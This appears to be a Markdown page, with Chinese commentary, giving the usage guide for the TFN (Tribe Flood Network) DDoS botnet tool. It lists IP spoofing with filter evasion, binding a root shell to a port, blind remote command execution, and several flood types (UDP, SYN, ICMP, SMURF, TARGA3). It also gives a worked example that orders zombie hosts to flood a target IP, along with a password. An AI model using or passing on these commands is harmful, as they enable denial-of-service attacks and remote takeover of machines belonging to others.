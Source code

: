 > [-S host/ip]    Specify your source IP. Randomly spoofed by default, you need

> to use your real IP if you are behind spoof-filtering routers

> [-f hostlist]   Filename containing a list of hosts with TFN servers to contact

> [-h hostname]   To contact only a single host running a TFN server

> [-i target string]      Contains options/targets separated by '@', see below

> [-p port]               A TCP destination port can be specified for SYN floods

> <-c command ID> 0 - Halt all current floods on server(s) immediately

> 1 - Change IP antispoof-level (evade rfc2267 filtering)

>    usage: -i 0 (fully spoofed) to -i 3 (/24 host bytes spoofed)

> 2 - Change Packet size, usage: -i <packet size in bytes>

> 3 - Bind root shell to a port, usage: -i <remote port>

> 4 - UDP flood, usage: -i victim@victim2@victim3@...

> 5 - TCP/SYN flood, usage: -i victim@... [-p destination port]

> 6 - ICMP/PING flood, usage: -i victim@...

> 7 - ICMP/SMURF flood, usage: -i victim@broadcast@broadcast2@...

> 8 - MIX flood (UDP/TCP/ICMP interchanged), usage: -i victim@...

> 9 - TARGA3 flood (IP stack penetration), usage: -i victim@...

> 10 - Blindly execute remote shell command, usage -i command


### tips 

> -c 10是执行一条指令

> -c 4,5,6,7,8,9 是5种DOS攻击

> -c 0 是关闭攻击




## example:

`# /root/tfn -f host_tfn -c 6 -i 10.4.192.25 `

> 从主控端指挥host_tfn内定义的肉鸡向10.4.192.25发动icmp ping 攻击

> Protocol      : random

> Source IP     : random

> Client input  : list

> Target(s)     : 10.4.192.25

> Command       : commence icmp echo flood

> Password verification: 输入00008421


[1]: http://blog.sina.com.cn/s/blog_6151984a0100exma.html